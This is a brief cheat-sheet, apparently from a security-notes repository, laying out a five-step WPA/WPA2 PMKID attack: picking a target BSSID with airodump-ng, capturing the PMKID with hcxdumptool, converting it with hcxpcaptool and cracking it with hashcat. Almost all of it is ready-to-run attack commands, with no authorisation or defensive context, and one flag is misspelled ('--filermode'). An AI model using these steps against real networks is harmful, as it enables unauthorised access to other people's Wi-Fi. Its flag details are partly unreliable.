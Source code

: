# WPA/WPA2 PMKID

STEP 1:
https://github.com/ZerBea/hcxdumptool
https://github.com/aircrack-ng/aircrack-ng

STEP 2: Find target BSSID:
airodump-ng <int>

STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap

STEP 4: Extract PMKID into hashcat format for cracking:
(link: https://github.com/ZerBea/hcxtools) github.com/ZerBea/hcxtools
hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap

STEP 5: Crack:
hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt

> https://mobile.twitter.com/netmux/status/1097908867374215168

